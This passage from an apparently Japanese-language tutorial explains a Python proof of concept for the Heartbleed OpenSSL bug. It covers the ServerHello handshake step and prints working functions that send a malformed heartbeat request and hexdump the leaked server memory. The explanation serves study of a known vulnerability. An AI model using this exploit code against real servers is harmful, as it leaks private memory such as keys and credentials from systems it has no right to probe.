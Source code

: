 ServerHelloの構造は、ClientHelloと同じです。
レコードヘッダ部から、ハンドシェイクのTypeとSSLのバージョン、データ長を取得しています。

しかし、ServerHelloの構造は、ClientHelloと同じですが、そのデータ部には、サーバ側で決定された情報が追加されます。（SessionIDなど）

なお、ClientHelloでは、SSLのバージョンについて`03 00`を指定して送信していましたが、ServerHelloでは`03 01`が返ってきています。

これは、**サーバ側は必ずしもクライアントと同じバージョンに対応している必要はない**ためです。
サーバ側は、クライアント側が自信のバージョンに対応してくれることを期待し、応答を返します。

これでコネクションが確立できることが分かったのですが、今回はSSLハンドシェイクを構築する必要はないので、データ部の中にServerHelloの完了を示す情報が確認されたタイミングでbreakしていますね。

```python
# Look for server hello done message.
	if typ == 22 and ord(pay[0]) == 0x0E:
		break
```

SSL接続が可能なことが確認されたため、最後はいよいよ攻撃性のハートビートパケットを送信してデータを抜き出します。

### create_hb関数

最後は攻撃パケットを送信する部分です。
応答を確認しているhit_hb関数も一緒に見ていきます。

```python
def create_hb(version):
	hb = h2bin('18 ' + version + ' 00 03 01 40 00')
	return hb

def hit_hb(s,hb):
	s.send(hb)
	while True:
		typ, ver, pay = recvmsg(s)
		if typ is None:
			print 'No heartbeat response received, server likely not vulnerable'
			return False

		if typ == 24:
			print 'Received heartbeat response:'
			hexdump(pay)
			if len(pay) > 3:
				print 'WARNING: server returned more data than it should - server is vulnerable!'
			else:
				print 'Server processed malformed heartbeat, but did not return any extra data.'
			return True

		if typ == 21:
			print 'Received alert:'
			hexdump(pay)
			print 'Server returned error, likely not vulnerable'
			return False
        
def main():
    ・・・
		print 'Sending heartbeat request...'
		sys.stdout.flush()
		s.send(create_hb(version[i][1]))
		if hit_hb(s,create_hb(version[i][1])):
			#Stop if vulnerable
			break
```
